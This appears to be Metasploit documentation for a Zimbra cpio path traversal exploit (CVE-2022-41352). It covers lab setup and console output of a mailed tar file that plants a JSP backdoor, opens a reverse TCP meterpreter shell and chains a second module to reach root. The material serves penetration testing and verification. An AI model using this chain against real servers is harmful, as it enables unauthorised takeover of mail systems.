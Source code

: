 ## Vulnerable Application

This module exploits a symlink-based path traversal vulnerability in `cpio`
(that's identified as CVE-2015-1197) that's exploitable in Zimbra. The
following versions of Zimbra are vulnerable:

* Zimbra Collaboration Suite 9.0.0 Patch 26 (and earlier)
* Zimbra Collaboration Suite 8.8.15 Patch 33 (and earlier)

The patch for Zimbra adds `pax` as a pre-requisite, so any version of Zimbra
(except Ubuntu 18.04, which has a patched `cpio` binary) can be made vulnerable
with `rm $(which pax)`.

To verify a host is vulnerable, ensure that `pax` is not installed on the host.
Also, validate that `cpio` is listed in `amavisd.conf` as an option to extract
.tar/.cpio files:

```
[ron@mail tmp]$ sudo cat /opt/zimbra/conf/amavisd.conf | grep cpio
[...]

  [['cpio','tar'], \&do_pax_cpio, ['pax', 'gcpio', 'cpio'] ],
```

Note that this can be chained with other Zimbra exploits to get root.

### Installing Zimbra

Create a VM

```
HDD = 128gb
Memory/etc don't matter
```

I installed a local DNS server (note: replace `<ip>` with the host's actual ip)
(other note: replace `apt` with `yum` to do this on a Red Hat-derived system):

```
sudo apt update && sudo apt install dnsmasq
sudo hostnamectl set-hostname mail.example.org
echo "<ip> mail.example.org" | sudo tee -a /etc/hosts
echo -e 'listen-address=127.0.0.1\nserver=8.8.8.8\ndomain=example.org\nmx-host=example.org, mail.example.org, 5\nmx-host=mail.example.org, mail.example.org, 5' | sudo tee /etc/dnsmasq.conf
```

Configure the host to use it:

```
sudo systemctl disable systemd-resolved
sudo systemctl stop systemd-resolved
sudo killall dnsmasq
sudo systemctl restart dnsmasq
echo "nameserver 127.0.0.1" | sudo tee /etc/resolv.conf
```

Download Zimbra from
https://www.zimbra.com/downloads/zimbra-collaboration-open-source/ - you'll
have to sell your soul and opt-in to spam, but they don't validate your email.

```
tar -xvvzf zcs-*.tgz
cd zcs*
sudo ./install.sh

* Lots of <enter>
* DO NOT install `dnscache` module (respond `N` when it ask), I had conflict issues with the local `dnsmasq`
* Yes change the system
* Setup the admin password, probably turn off auto-updates
```

## Verification Steps

To exploit Zimbra, first load the module and generate the .tar file:

```
msf6 > use exploit/linux/http/zimbra_cpio_cve_2022_41352
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/zimbra_cpio_cve_2022_41352) > set LHOST 172.16.166.147
LHOST => 172.16.166.147
msf6 exploit(linux/http/zimbra_cpio_cve_2022_41352) > set RHOSTS 172.16.166.158
RHOSTS => 172.16.166.158
msf6 exploit(linux/http/zimbra_cpio_cve_2022_41352) > exploit
[*] Exploit running as background job 0.
[*] Started reverse TCP handler on 172.16.166.147:4444
[*] Encoding the payload as a .jsp file
[*] Adding symlink to path to .tar file: /opt/zimbra/jetty_base/webapps/zimbra/
[*] Adding target file to the archive: public/bdhg.jsp
[+] payload.tar stored at /home/ron/.msf4/local/payload.tar
[+] File created! Email the file above to any user on the target Zimbra server

[...] waiting [...]
```

Then, email that file to any user (including a non-existent mailbox) on the Zimbra server. Once the payload arrives at Zimbra, Zimbra should try to extract it to check for malware with no user interaction. Metasploit should see the malicious file extracted and get a session:

```
[...]
[+] File created! Email the file above to any user on the target Zimbra server
[*] Trying to trigger the backdoor @ public/bdhg.jsp every 5s [backgrounding]...

[file emailed]

[*] Sending stage (3045348 bytes) to 172.16.166.158
[*] Meterpreter session 1 opened (172.16.166.147:4444 -> 172.16.166.158:44808) at 2022-10-06 10:27:34 -0700

msf6 exploit(linux/http/zimbra_cpio_cve_2022_41352) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: zimbra
```

For bonus points, use a different module to get root:

```
msf6 exploit(linux/http/zimbra_cpio_cve_2022_41352) > use exploit/linux/local/zimbra_slapper_priv_esc
[*] Using configured payload linux/x64/meterpreter/reverse_tcp

msf6 exploit(linux/local/zimbra_slapper_priv_esc) > set SESSION 1
SESSION => 1

msf6 exploit(linux/local/zimbra_slapper_priv_esc) > exploit

[*] Started reverse TCP handler on 172.16.166.147:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Executing: sudo -n -l
[+] The target appears to be vulnerable.
[*] Creating exploit directory: /tmp/.vT1bDSvZV
[*] Attempting to trigger payload: sudo /opt/zimbra/libexec/zmslapd -u root -g root -f /tmp/.vT1bDSvZV/.RhmWwHRn
[*] Sending stage (3045348 bytes) to 172.16.166.158
[+] Deleted /tmp/.vT1bDSvZV
[*] Meterpreter session 2 opened (172.16.166.147:4444 -> 172.16.166.158:60166) at 2022-10-06 10:45:30 -0700

meterpreter > getuid
Server username: root
```


## Options

### `FILENAME`

The filename to generate - defaults to `payload.tar`, but can be changed on the filesystem or whatever.

### `TARGET_PATH`

The absolute path where the payload will extract to. The default is the webroot, which is usually what you want

### `TARGET_FILENAME`

The actual filename. It really should end with `.jsp`, otherwise it won't execute.

By default, it's a random string with `.jsp` on the end, in the `public/` folder. That should work fine, especially because we can't overwrite files and don't want to use the same payload name more than once.

### `SYMLINK_FILENAME`

The path used for the symlink inside the archive; you probably won't ever want to change this (default: random)

### `TRIGGER_PAYLOAD`

A boolean, default `true`, that determines whether we use HTTP requests to trigger the .jsp payload. Set to `false` to trigger the payload manually.

### `ListenerTimeout`

The number of seconds to wait for a new session (default = `0`, or infinite).

### `CheckInterval`

The frequency with which to check for the payload on the server. Every `CheckInterval`, it performs an HTTP request to the payload path.
